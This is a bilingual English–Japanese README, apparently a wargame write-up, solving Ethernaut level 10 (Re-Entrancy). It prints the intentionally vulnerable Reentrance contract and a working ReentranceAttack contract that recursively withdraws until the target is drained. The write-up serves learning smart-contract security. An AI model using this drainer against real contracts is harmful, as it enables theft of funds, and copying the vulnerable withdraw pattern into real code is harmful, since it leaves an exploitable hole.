



<!-- @format -->

# English README 　[Jump to Japanese Version](#japanese)

# Ethernaut Solutions

- The Ethernaut is a Web3/Solidity-based coding wargame, played in the Ethereum Virtual Machine.
- Each level is a smart contract that needs to be 'hacked'.

Here are the writeups of my solutions levels I cleared.
** I will not recommend you to look at solutions I wrote. Solve it yourself for your learning 😛 **

# How to use Ethernaut

- To use ethernaut, you need to use the console from the developper tool of your browser in the first place.
- If your confortable with Foundry and Methods call using `cast` and `send`, you can also solve problem from Foundry framework.
- If you are not confortable yet with ABI, then it is a great way to learn about it and how to call any contract by external calls.
- In higher difficulty levels, you will need to wrote smart contracts and interfaces to hack some smart contract externally for clearing levels.

## Ethernaut 10. Re-Entrancy

The goal is simple: To steal all the funds from the contract.

<br/>
<p align="center">

</p>
<br/>

- Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- What is going to happen, we need to call `donae` to set a `value` to the balance of contract used for the attack.
- Then call `withdraw` to empty the contract. Since the state changes happen later on, the `receive` function will be called and the attack will be repeated until the attacked contract balance is less than `0.001eth`.

1. Create an external contract calling the instance of the contract made on Ethernaut.
2. Attack the `donate` and `withdraw` function to empty the contract.
3. Then transfer the funds to the owner via the `compensation` function.

`ReentranceAttack` takes as input the contract instance address made on Ethernaut. `Value` also needs to be filled with the amount of ether to send: `1000000000000000`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function loopAttack() public payable {
        require(msg.value >= targetValue);
        //donate
        targetContract.donate{value:msg.value}(address(this));
        //withdraw
        targetContract.withdraw(msg.value);
        // hit receive and repeat
    }

    function compensation() public {
        require(msg.sender == owner);
        uint totalBalance = address(this).balance;
        payable(msg.sender).transfer(totalBalance);
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

<br/>
<p align="center">

</p>
<br/>

1. Submit result to ethernaut.

Level is completed.

<br/>
<p align="center">

</p>
<br/>

<a name="japanese"></a>

# 日本語版の README

# Ethernaut の解決策

- Ethernaut は、Web3/Solidity ベースのコーディングウォーゲームで、Ethereum Virtual Machine (EVM) でプレイされます。
- 各レベルはハッキングする必要があるスマートコントラクトです。

これはクリアしたレベルの解決策です。
**解決策を見ることをお勧めしません。学習のために自分で解決してください 😛 **

# Ethernaut の使用方法

- Ethernaut を使用するには、まずブラウザの開発者ツールからコンソールを使用する必要があります。
- Foundry と cast および send を使用した方法の呼び出しに慣れている場合、Foundry フレームワークから問題を解決することもできます。
- まだ ABI に慣れていない場合、それを使用して任意のコントラクトを外部呼び出しで呼び出す方法について学び、理解するのに最適な方法です。
- より高難度のレベルでは、スマートコントラクトとインターフェースを作成して、いくつかのスマートコントラクトを外部からハッキングするために解レベルをクリアする必要があります。

## Ethernaut 10. Re-Entrancy

目標はシンプルです：コントラクトからすべての資金を盗むことです。

<br/>
<p align="center">

</p>
<br/>

- コントラクト:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- 何が起こるかというと、攻撃に使用される契約の残高に`value`を設定するために`donate`を呼び出す必要があります。
- その後、`withdraw`を呼び出して契約の中身を空にします。状態の変更が後で起こるため、`receive`関数が呼び出され、攻撃された契約の残高が`0.001eth`未満になるまで攻撃が繰り返されます。

- 以下を Remix にコピーしてください:

1. デプロイしてください。
2. `donate` 関数と `withdraw` 関数を攻撃して、契約から資金を引き出します。
3. その後、`compensation` 関数を通じて資金をオーナーに転送します。

- `ReentranceAttack`は Ethernaut 上で作成されたコントラクトインスタンスのアドレスを入力として取ります。送信する Eth の量、`1000000000000000`も`Value`に入力する必要があります。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function loopAttack() public payable {
        require(msg.value >= targetValue);
        //donate
        targetContract.donate{value:msg.value}(address(this));
        //withdraw
        targetContract.withdraw(msg.value);
        // hit receive and repeat
    }

    function compensation() public {
        require(msg.sender == owner);
        uint totalBalance = address(this).balance;
        payable(msg.sender).transfer(totalBalance);
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

<br/>
<p align="center">

</p>
<br/>

1. 結果を ethernaut に提出します。

- レベルが完了。

<br/>
<p align="center">

</p>
<br/>
